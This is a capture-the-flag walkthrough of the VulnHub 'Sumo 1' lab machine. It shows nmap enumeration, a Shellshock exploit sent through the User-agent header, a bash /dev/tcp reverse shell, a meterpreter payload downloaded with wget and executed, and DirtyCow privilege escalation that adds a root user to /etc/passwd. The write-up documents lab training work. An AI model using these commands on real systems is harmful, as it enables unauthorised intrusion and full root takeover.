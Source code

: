 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sumo-1,480/)

# enumeration
As always we are starting with a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn -p22,80 -sV 192.168.150.87
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 16:26 EST
Nmap scan report for 192.168.150.87
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds
```

On port 80 there is a web server with a default landing page.  
> Using `gobuster` on this website reveals that there is a resource named `/cgi-bin/test`. So it might be a good idea to test for the classic `shellshock` vulnerability.
{: .prompt-info }

---

# exploitation
## shellshock on port 80 (`/cgi-bin/test`)
### proof of concept
```bash
$ curl -H "User-agent: () { :;}; echo; echo vulnerable" http://192.168.150.87/cgi-bin/test
vulnerable
Content-type: text/html

CGI Default !
```

> Yes! We confirmed that there is a `shellshock` vulnerability.
{: .prompt-info }

### reverse shell
#### on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

#### trigger reverse shell
```bash
$ curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/192.168.49.150/80 0>&1" http://192.168.150.87/cgi-bin/test
```

#### catch connection from server
```bash
$ nc -lvp 80      
listening on [any] 80 ...
192.168.150.87: inverse host lookup failed: Unknown host
connect to [192.168.49.150] from (UNKNOWN) [192.168.150.87] 43835
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
```

> Bam! We got a shell :-)
{: .prompt-info }

---

# post exploitation
## deploy meterpreter
### generate meterpreter payload
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=443 -f elf > shell.elf
```

### provide payload via simple web server
```bash
$ python3 -m http.server 80                                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### upload to target
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ wget http://192.168.49.228/shell.elf -O /tmp/shell
www-data@ubuntu:/usr/lib/cgi-bin$ chmod +x /tmp/shell
```

### start `metasploit` listener on attacker machine
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.150   yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443 
```

### start `meterpreter`
```bash
www-data@ubuntu:/usr/lib/cgi-bin$ /tmp/shell
```

### catch connection from `meterpreter`
```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.150:443
[*] Meterpreter session 1 opened (192.168.49.150:443 -> 192.168.150.87:52570 ) at 2022-02-01 16:57:33 -0500

meterpreter > getuid
Server username: www-data
```

## privilege escalation
1. Use [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) to identify that the server is vulnerable to `dirtycow`
2. Use [https://www.exploit-db.com/raw/40839](https://www.exploit-db.com/raw/40839) and upload it to the target via `meterpreter`
3. Compile and execute the exploit to add a new root user

```bash
meterpreter > shell
Process 4149 created.
Channel 65 created.
cd /tmp
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@ubuntu:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 12345678
Complete line:
firefart:fiMWHjmZgx9rM:0:0:pwned:/root:/bin/bash

mmap: 7fad37d9f000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '12345678'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

## login via `ssh` with new `root` user (`firefart:12345678`)
```bash
$ ssh firefart@192.168.150.87                                                                                          
The authenticity of host '192.168.150.87 (192.168.150.87)' can't be established.
ECDSA key fingerprint is SHA256:G8HZXu6SUrixt/obia/CUlTgdJK9JaFKXwulm6uUrbQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.150.87' (ECDSA) to the list of known hosts.
firefart@192.168.150.87's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

firefart@ubuntu:~# whoami
firefart
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
```

> Yay! We got `root` access.
{: .prompt-info }

---

# get flags
## `user` flag
```bash
firefart@ubuntu:~# cd /usr/lib/cgi-bin
firefart@ubuntu:~# ls
local.txt
test
test.sh
firefart@ubuntu:~# cat local.txt
5******************************3
```

## `root` flag
```bash
firefart@ubuntu:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@ubuntu:~# cd /root
firefart@ubuntu:~# ls
proof.txt  root.txt
firefart@ubuntu:~# cat proof.txt
9******************************1
```
Pwned! <@:-)
